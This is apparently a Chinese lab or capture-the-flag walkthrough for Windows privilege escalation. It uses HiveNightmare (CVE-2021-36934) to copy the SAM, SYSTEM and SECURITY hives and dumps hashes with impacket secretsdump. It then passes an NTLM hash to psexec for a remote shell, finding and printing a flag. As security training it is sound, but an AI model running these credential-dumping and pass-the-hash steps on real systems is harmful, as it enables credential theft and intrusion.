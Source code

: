 ---

##### 任务14：Hash提权(T - 1068利用漏洞进行权限提升)

查看当前用户信息，检测当前主机是否容易受到攻击：

```
icacls C:\windows\system32\config\sam
```

![image-20220621092918571044-1655795852557384.png](img/Hash提权.assets/18dead33303338f01d6c36045acaab6e.png)

输出`BUILTIN\Users:(I)(RX)`表示该系统易受攻击。

将`Win10`主机`C:\Users\Administrator\Desktop\工具\exp\CVE-2021-36934`目录下的`HiveNightmare.exe`文件复制粘贴至远程主机`192.168.2.150`的桌面中：

![image-20220621094338675370-1655795854024724.png](img/Hash提权.assets/a7bd523679ab9cfedac574df242d44e1.png)

命令行中执行命令：

```
cd Desktop

HiveNightmare.exe
```

![image-20220621094436917061-1655795856256429.png](img/Hash提权.assets/91b546bc005bfb89e931a75cbccb6747.png)

桌面出现三个文件：

![image-20220621094510481340-1655795857734125.png](img/Hash提权.assets/be5518667a79325770fb7e80701fe01f.png)

将这三个文件复制粘贴至`Win10`主机的`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples`目录下，在该目录下打开命令行执行命令：

```
python3 secretsdump.py -sam SAM-2022-06-20 -system SYSTEM-2022-06-20 -security SECURITY-2022-06-20 LOCAL

##SAM-2022-06-20、SYSTEM-2022-06-20、SECURITY-2022-06-20为生成的文件名，请以实际情况进行填写。
```

![image-20220621094953535733-1655795859221117.png](img/Hash提权.assets/b7461fc1b77bd07a88045779e49f0ac7.png)

获取到密码hash：

![image-20220621095050454699-1655795860714808.png](img/Hash提权.assets/5db694fc41624161e873371fba5ea401.png)

再执行命令进行横向移动：（需要在WSL上面运行，并且加ProxyChains4）

```
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5d3d0d5e35d5b0c22f7617f472c859c0 administrator@192.168.2.150 cmd.exe
```

![image-20220621100706837425-1655795862184879.png](img/Hash提权.assets/a8132fdd9dedd49046c1033d7790de46.png)

查看当前权限：

![image-20220621100734010209-1655795863666626.png](img/Hash提权.assets/d107ca17f42f185f11f2c4de9caf6d00.png)

查看flag：

```
cd C:\

dir /s /b flag.txt
```

![image-20220621100835779144-1655795865154522.png](img/Hash提权.assets/7b82a20b6103e8f799dfcb02795e41a5.png)

查看flag（若无回显可按几次回车）：

![image-20220621100909958780-1655795866635535.png](img/Hash提权.assets/04e4d0fd20b1551fc13a77e7c6364d13.png)

```
flag{915C-0005-59BA-73EF-09D0-6E35-AA2A-A088}
```